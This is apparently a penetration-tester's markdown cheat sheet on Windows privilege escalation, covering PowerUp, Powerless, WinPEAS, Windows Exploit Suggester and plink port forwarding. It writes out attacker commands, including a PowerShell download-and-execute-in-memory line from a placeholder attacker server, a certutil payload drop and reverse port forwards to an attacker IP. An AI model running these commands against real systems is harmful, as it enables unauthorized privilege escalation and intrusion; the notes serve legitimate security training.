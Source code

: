 # Windows Privilege Escalation

- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  - Download and execute in memory `powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python windows-exploit-suggester.py --update`
   - `python windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`
    
- Enumerate Local Services
  - `netstat -ano`
  - Look for LISTENING/LISTEN. Compare that to the scan you did from the outside. Does it contain any ports that are not accessible from the outside? If that is the case, maybe you can make a remote forward to access it.
  
   `plink32.exe -ssh -l <MYUSERNAME> -pw <MYPASSWORD> -R <MYIP>:<MYPORT>:127.0.0.1:8090 <MYIP>`
   
    ```
      # Port forward using plink
      plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
    ```
    
    [plink.exe binaries](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Great Source https://redtm.com/privilege-escalation/windows-privilege-escalation-cheat-sheet/
